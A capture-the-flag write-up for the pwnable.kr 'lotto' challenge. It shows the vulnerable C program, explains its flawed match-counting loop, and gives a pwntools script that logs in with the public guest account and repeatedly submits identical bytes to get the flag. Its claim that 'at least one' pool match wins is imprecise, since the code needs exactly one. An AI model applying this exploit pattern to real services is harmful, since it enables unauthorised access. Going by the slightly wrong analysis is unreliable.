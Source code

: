 ### Analysis

The program is a lottery game where you submit 6 bytes (numbers between 1 and 45). The program generates 6 random numbers in the same range and compares them to your input. If all 6 numbers match, you win and get the flag. However, the comparison logic is flawed: it checks each of your numbers against every number in the random pool, meaning if all your numbers are the same, you can win if any number in the pool matches your repeated number.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

        // win!
        if(match == 6){
                system("/bin/cat flag");
        }
        else{
                printf("bad luck...\n");
        }

}

void help(){
        printf("- nLotto Rule -\n");
        printf("nlotto is consisted with 6 random natural numbers less than 46\n");
        printf("your goal is to match lotto numbers as many as you can\n");
        printf("if you win lottery for *1st place*, you will get reward\n");
        printf("for more details, follow the link below\n");
        printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
        printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

        // menu
        unsigned int menu;

        while(1){

                printf("- Select Menu -\n");
                printf("1. Play Lotto\n");
                printf("2. Help\n");
                printf("3. Exit\n");

                scanf("%d", &menu);

                switch(menu){
                        case 1:
                                play();
                                break;
                        case 2:
                                help();
                                break;
                        case 3:
                                printf("bye\n");
                                return 0;
                        default:
                                printf("invalid menu\n");
                                break;
                }
        }
        return 0;
}
```

### Exploit

1. **Flaw in Comparison Logic**:
   - The program compares each of your 6 numbers against every number in the random pool.
   - If all 6 of your numbers are the same, and at least one number in the random pool matches your repeated number, the program will incorrectly calculate a match of 6.

2. **Strategy**:
   - Submit 6 identical numbers (e.g., `------` where `-` is a byte representing the same number between 1 and 45).
   - Repeat the process until the random pool contains at least one number matching your repeated number.

### Solution Code

```python
from pwn import *

# Connect to the server
sh = ssh('lotto', 'pwnable.kr', password='guest', port=2222)
p = sh.process('./lotto')

# Exploit the flawed comparison logic
for i in range(1000):  # Try up to 1000 times
    # Skip menu prompts
    p.recvlines(3)

    # Select "Play Lotto"
    p.sendline('1')
    p.recvline()  # Skip "Submit your 6 lotto bytes" prompt

    # Submit 6 identical bytes (e.g., '------')
    p.sendline('------')

    # Check the result
    result = p.recvline().decode()
    if 'bad' not in result:
        print('Found the flag!')
        print(p.recv().decode())  # Print the flag
        break

# Close the connection
sh.close()
```

### Final Command

Run the following Python script to exploit the program and retrieve the flag:

```bash
python3 lotto_exploit.py
```
